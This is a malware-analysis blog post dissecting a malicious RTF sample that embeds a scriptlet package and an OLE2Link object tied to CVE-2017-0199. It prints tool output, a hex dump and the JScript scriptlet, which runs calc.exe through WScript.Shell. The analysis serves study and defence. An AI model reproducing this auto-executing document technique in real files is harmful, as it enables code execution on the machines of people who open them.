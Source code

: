 +++
author = "Brian Stadnicki"
title = "Embedded objects in OLE & OLE2 using links"
date = "2021-12-03"
categories = [ "malware analysis" ]
tags = [ "reverse engineering", "malware", "word", "rtf", "ole", "ole2" ]
+++

![Preview](/posts/malware-ole-ole2-embed-links/preview.png)

.docx and .doc documents can contain embedded objects through a variety of methods, here we look at a sample using OLE linking and embedding.

Sample obtained from [any.run](https://app.any.run/tasks/0e904df7-aced-4309-a172-dcf85d463b6e/)

Property              | Value
----------------------|---------------------------------------------------
File Type             | Rich Text Format
File Size             | 8.00 KB
FileTitle             | OriginalRTF.bak.rtf
MD5                   | 00f576ddeaf60756bfe671858434931c
SHA1                  | 44c0d585482755dd945cea10458b82ca6cb620ff
SHA256                | 23c8f0fb9912538eee0bde49b2007e7e0f4efbd8bca69ddb9c05fafcee6f03ab

# Initial static analysis

```
{\rt{\object\objemb\objw1\objh1{\*\objclass Package}{\*\objdata 01050000020000000800...
}}{\object\objautlink\objupdate{\*\objclass Word.Document.8}{\*\objdata 01050...
```

You can see `Word.Document.8` being used to embed a word document object. You can read up on how objects are embedded in RTF documents and OLE Exploits on the [McAfee blog](https://www.mcafee.com/blogs/other-blogs/mcafee-labs/an-inside-look-into-microsoft-rich-text-format-and-ole-exploits/)

# Extracting the word document 

Initially I tried to use [rtfobj](https://github.com/decalage2/oletools/wiki/rtfobj), but I ran up against [issue 712](https://github.com/decalage2/oletools/issues/712), but there's a fix from [zdiff](https://github.com/zdiff/oletools/tree/bugfix/538).

The following were extracted from the .rtf:

```
---+----------+---------------------------------------------------------------
id |index     |OLE Object                                                     
---+----------+---------------------------------------------------------------
0  |0000003Fh |format_id: 2 (Embedded)                                        
   |          |class name: b'Package'                                         
   |          |data size: 619                                                 
   |          |OLE Package object:                                            
   |          |Filename: 'QNV32ZJJYHRAJI9.sct'                                
   |          |Source path: 'C:\\fakepath\\QNV32ZJJYHRAJI9.sct'               
   |          |Temp path = 'C:\\fakepath\\QNV32ZJJYHRAJI9.sct'                
   |          |MD5 = '4c8ef666ff36eb0780dc4cfa7941a7de'                       
   |          |EXECUTABLE FILE                                                
---+----------+---------------------------------------------------------------
1  |000005ADh |format_id: 2 (Embedded)                                        
   |          |class name: b'OLE2Link'                                        
   |          |data size: 2560                                                
   |          |MD5 = 'ca72599a87f0d00eacd954ce96390459'                       
   |          |CLSID: 00000300-0000-0000-C000-000000000046                    
   |          |StdOleLink (embedded OLE object - Known Related to             
   |          |CVE-2017-0199, CVE-2017-8570, CVE-2017-8759 or CVE-2018-8174)  
   |          |Possibly an exploit for the OLE2Link vulnerability (VU#921560, 
   |          |CVE-2017-0199)                                                 
---+----------+---------------------------------------------------------------
```

## embedded QNV32ZJJYHRAJI9.sct

This `.sct` scriptlet simply runs `calc.exe`.

```jscript
<script language="JScript">
<![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
```

## embedded OLE object

This is a OLE object, specifically a `Word.Document.8`, which is the Word 97 version. To analyse this older document type, use [oledump](https://blog.didierstevens.com/programs/oledump-py/).

```
$ python3 oledump.py OriginalRTF.bak.rtf_object_000005AD.bin'
  1:       256 '\x01Ole'
  2:       183 '\x03LinkInfo'
  3:         6 '\x03ObjInfo'
b$ python3 oledump.py -s1 OriginalRTF.bak.rtf_object_000005AD.bin
00000000: 01 00 00 02 09 00 00 00  01 00 00 00 00 00 00 00  ................
00000010: 00 00 00 00 00 00 00 00  C0 00 00 00 09 03 00 00  ................
00000020: 00 00 00 00 C0 00 00 00  00 00 00 46 02 00 00 00  ...........F....
00000030: 03 03 00 00 00 00 00 00  C0 00 00 00 00 00 00 46  ...............F
00000040: 00 00 1A 00 00 00 25 54  4D 50 25 5C 51 4E 56 33  ......%TMP%\QNV3
00000050: 32 5A 4A 4A 59 48 52 41  4A 49 39 2E 73 63 74 00  2ZJJYHRAJI9.sct.
00000060: 0E 00 AD DE 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000070: 00 00 00 00 00 00 00 00  38 00 00 00 32 00 00 00  ........8...2...
00000080: 03 00 25 00 54 00 4D 00  50 00 25 00 5C 00 51 00  ..%.T.M.P.%.\.Q.
00000090: 4E 00 56 00 33 00 32 00  5A 00 4A 00 4A 00 59 00  N.V.3.2.Z.J.J.Y.
000000A0: 48 00 52 00 41 00 4A 00  49 00 39 00 2E 00 73 00  H.R.A.J.I.9...s.
000000B0: 63 00 74 00 C6 AF AB EC  19 7F D2 11 97 8E 00 00  c.t.............
000000C0: F8 75 7E 2A 00 00 00 00  00 00 00 00 00 00 00 00  .u~*............
000000D0: 00 00 00 00 00 00 00 00  00 00 00 00 FF FF FF FF  ................
000000E0: 06 09 02 00 00 00 00 00  C0 00 00 00 00 00 00 46  ...............F
000000F0: 00 00 00 00 FF FF FF FF  00 00 00 00 00 00 00 00  ................
$ python3 oledump.py -s2 OriginalRTF.bak.rtf_object_000005AD.bin
# Bunch of 0s
$ python3 oledump.py -s3 OriginalRTF.bak.rtf_object_000005AD.bin
00000000: 90 66 60 A6 37 B5                                 .f`.7.
```

This just runs the scriptlet from earlier.
